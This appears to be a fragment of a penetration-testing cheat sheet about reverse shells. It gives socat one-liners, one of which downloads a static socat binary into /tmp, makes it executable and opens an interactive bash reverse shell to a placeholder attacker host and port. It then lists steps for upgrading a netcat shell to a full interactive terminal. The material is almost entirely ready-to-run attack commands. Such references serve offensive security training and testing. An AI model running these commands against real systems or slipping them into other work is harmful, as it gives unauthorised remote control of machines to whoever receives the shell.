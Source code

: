 #### Socat

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host ip>:<port>
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<host ip>:<port>
```

### Upgrade functionalities

1. After spawning a new shell with one of the methods above, do `CTRL+Z` to background Netcat.
2. `stty raw -echo&&fg`
3. In new shell: `reset`
4. set terminal type to xterm: `export TERM=xterm`
5. in local shell: `stty -a` to get current terminal size (rows and cols)
6. set correct terminal in remote terminal: `stty rows <rows> cols <cols>`
7. `export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`



###
